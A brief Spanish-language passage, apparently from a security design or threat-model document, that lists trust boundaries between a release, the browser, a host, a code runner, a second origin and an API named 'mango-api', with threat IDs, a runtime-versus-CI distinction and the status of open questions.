- Fronteras representadas: release → navegador (UI1, UI2, UI8), ventanas → host (UI3), host → runner → interior (UI4, UI5, UI9, UI10), interior → segundo origen (UI4, UI12), app → host → `mango-api` (UI6, UI7), otros sitios → runner (UI11, UI12).
- Runtime frente a CI: el espejo y el runner se arman en el build de la release; transpilar en el navegador de la persona no es compilar en la cuenta del cliente (D124, regla 1).
- Preguntas abiertas: P1, P2, P4 y P7, respondidas por V0 (2026-11-08); P5 en parte (sin Pyodide); U-a, sin probar.
